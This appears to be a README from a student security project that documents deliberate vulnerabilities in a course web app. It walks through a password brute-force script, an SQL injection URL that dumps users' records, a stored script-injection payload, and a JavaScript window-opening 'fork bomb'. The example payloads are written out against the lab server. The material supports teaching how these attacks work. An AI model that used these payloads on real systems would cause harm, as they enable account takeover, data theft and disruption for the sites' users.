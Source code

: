 ## Vulnerability Outline
**To exploit the vulnerabilities outlined below, utilize the secret-keeper-not-secure branch**

### Brute-Force Attack
**brutePass.sh**
* BrutePass takes advantage of the PUT login to test username and password combos
* Usernames are provided by the script user
* Passwords are taken from passwords.txt which has the 10000 top passwords

**Directions to use brutePass.sh:**
1. Place brutePass.sh and passwords.txt in the same directory
2. Open a connection to osu servers (do not use flip3, or the same server as the site is hosted if not flip3)
3. Open the directory with brutePass.sh
4. You may need to give yourself permission to run the script: chmod 777 brutePass.sh

**To use the script:** ./brutePass.sh -g username URL

**Examples:**
* ./brutePass.sh -g Kyle flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Katie flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Admin flip3.engr.oregonstate.edu:6061


### SQL Injection Attack
**HTML SQL Injection:**
* SQL code can be inserted into the URL as placeholders are not used for MySQL credential checks
* Use the following URL to access users' information without their credentials
```
flip3.engr.oregonstate.edu:6061/user/'\*'%20OR%20ALL&'\*'%20OR%20ALL
```

### HTML Injection Attack
**To inject a script:**
1. Sign into any existing user account
2. Add a new record, using the following as the value for one field in the form: 
```
>"&amp;gt;<script>alert("Warning: This site is vulnerable to an attack")</script>
```
3. Note the popup alert warning of possible attack

### Denial of Service (DoS) Attack
**Fork Bomb:**
1. Make sure that the active internet browser will not block popups
2. Add a new record, using the following as the value for the record name:
*  Change URL to link to user profile in use
```
>"&amp;gt;<script>
function fork() {
  	const win = window.open("http://flip3.engr.oregonstate.edu:6061/user/Kyle&12345");
	setTimeout(fork(), 1);
}
fork(); </script>
```
3. Select the name of the record from the record table to intitate fork bomb
* **WARNING: This will slow down the user computer**
* This does not bring down the school server (thankfully) rather it illustrates how to slow down a weak server
* The Kyle account has this record already saved and ready to initiate 
